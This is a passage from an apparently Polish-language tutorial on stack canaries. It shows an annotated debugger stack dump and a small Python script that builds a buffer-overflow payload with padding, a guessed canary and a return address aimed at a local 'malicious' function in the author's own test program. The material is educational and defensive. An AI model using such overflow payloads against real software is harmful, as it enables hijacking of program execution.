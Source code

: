 </font>

------

Teraz spróbuję osiągnąć ten sam efekt stosując eksploit na programie skompilowanym z kanarkami stosu. Warto na początek zajrzeć do debuggera, aby zobaczyć, jak tym razem wygląda stos. Na wydruku poniżej widać stan stosu po wykonaniu funkcji `gets`, która zapisała (tylko!) bufor znakami `A`. Dzięki temu widać dokładnie, gdzie znajduje się bufor. Zgodnie z oczekiwaniami zmienna lokalna `some_variable` została umieszczona przed buforem, co zabezpiecza ją przed nadpisaniem przy przepełnieniu bufora. Najważniejsze jest jednak to, co znajduje się przed wskaźnikiem ramki stosu - kanarek. Łatwo go odnaleźć, ponieważ zaczyna się bajtem `0x00`.  

<font size=1>

```assembly
=> 0x4011c7 <main+58>:	mov    -0x54(%rbp),%eax
0x7fffffffdfa0:	0x00007fffffffe108	0x0000000100000000 
0x7fffffffdfb0:	0x0000000000f0b5ff	0x00000007000000c2  
#                                     ^^^^^^^^ <- some_variable (4 bajty)  
0x7fffffffdfc0:	0x4141414141414141	0x4141414141414141 # -|
0x7fffffffdfd0:	0x4141414141414141	0x4141414141414141 #  | bufor
0x7fffffffdfe0:	0x4141414141414141	0x4141414141414141 #  |
0x7fffffffdff0:	0x4141414141414141	0x4141414141414141 # -|
0x7fffffffe000:	0x00007fffffffe100	0xd648704df8fd3c00    
#                                   ^^^^^^^^^^^^^^^^^^ <- kanarek!
0x7fffffffe010:	0x0000000000401200	0x00007ffff7df3cb2   
#        SFP -> ^^^^^^^^^^^^^^^^^^  ^^^^^^^^^^^^^^^^^^ <- RET
```

</font>

Ponieważ układ na stosie trochę się zmienił, to dostosuję eksploit tak, aby dać mu "szansę" zadziałać. Zmiany polegają, między innymi, na dopasowaniu długości paddingu, dodaniu wartości dla kanarka i zmiany adresu funkcji `malicious`. Z założenia nie znam wartości kanarka, dlatego nadpiszę go po prostu ośmioma bajtami `0x45`. 

<font size=1>

```python
import sys
import struct

buffor = b'\x41'*64
padding = b'\x42'*8
canary = b'\x45'*8
rbp = b'\x44'*8
ret = 0x401176

sys.stdout.buffer.write(buffor)
sys.stdout.buffer.write(padding)
sys.stdout.buffer.write(canary)
sys.stdout.buffer.write(rbp)
sys.stdout.buffer.write(struct.pack("Q", ret))
```

</font>
